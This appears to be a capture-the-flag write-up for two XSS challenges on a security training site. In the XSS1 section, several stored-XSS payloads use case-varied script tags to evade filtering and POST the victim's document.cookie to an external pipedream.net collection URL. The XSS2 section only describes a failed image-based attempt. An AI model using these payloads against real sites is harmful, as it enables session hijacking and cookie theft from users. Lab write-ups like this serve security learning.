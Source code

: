 # XSS challenges

## XSS1 [https://xss1.secu-web.blackfoot.dev/]

### Description
Cross-site scripting (XSS) is a web security vulnerability that allows an attacker to execute malicious scripts in a web browser of another user. This can allow the attacker to steal the session cookies of the user, perform other actions on behalf of the user, or redirect the user to a malicious site.

Usually XSS vulnerabilities consist in executing code on the machine of another user and potentially a user who has higher rights.
This means we will attempt to execute code on the machine of the admin of the website, try to hijack their session and get their cookie.

The site is a messaging site similar to whatsapp or telegram, seems we can pick any contact and send a message to them.
It seems the admin's paranoia of checking messages every minute gives us a window of opportunity to send stored xss.

### Solution
The user field input is not being sanitized correctly. We can inject a script tag by changing it to lower or uppercase naming, and proceed to execute javascript code. We can then send a message to the admin and wait for them to check their messages. The script will be executed on message page load and we will get the admin flag to a predetermined exfil url. One of the immediate problems is that the cookie storage is probably set to `Secure`, meaning it is not accessible by javascript. We can try to bypass this by accessing some internal localhost endpoint on admin's machine, and then hopefully get the cookie.
```
<sCRIPt>fetch("/messages/635",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eo2r70memzipors.m.pipedream.net",{method:"POST",body:document.cookie})}));</sCRiPt>
<sCRIPt>fetch("/admin",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eo2r70memzipors.m.pipedream.net",{method:"POST",body:document.cookie})}));</sCRiPt>
<sCRIPt>fetch("http://whatsup:8000/admin",{method:"GET"}).then((e=>e.text())).then((e=> {fetch("//eo2r70memzipors.m.pipedream.net",{method:"POST",body:document.cookie})}));</sCRiPt>
<sCRIPt>fetch("/messages/635",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eo2r70memzipors.m.pipedream.net",{method:"POST",body:document.cookie})}));</sCRiPt>
```
With the following combination of messages we can force the admin to read our messages, which then triggers the XSS, The cookie is then sent to our exfil url. We can then decode the cookie and get the flag.


## XSS2 [https://xss2.secu-web.blackfoot.dev/]

### Description

Same as XSS1, but seems that admin has taken more sanitization measures and we can't inject script tags anymore. It seems that we could send image urls and have them rendered on the page. Image-based XSS looks like js code encoded in a .bmp or .png file. We can then send the image to the admin and wait for them to check their messages.

### Solution

We couldn't find a consistent way of producing a fake image that is actually rendered on the message load. We tried a couple of forms, shown below:

In conclusion, I think we got pretty close to solving it without actually getting a flag. Things I would have tried would include trying to discover more ways of injecting code into an image. I would also have tried to find a way to bypass the sanitization of the image url, maybe by using a different protocol or something.


#### Screenshots
![alt text](https://github.com/kodoshi/blackfoot-web-ctf/blob/main/images/xss_0.png?raw=true)
![alt text](https://github.com/kodoshi/blackfoot-web-ctf/blob/main/images/xss_1.png?raw=true)

#### Resources
 - https://www.pipedream.com/
 - https://github.com/jklmnn/imagejs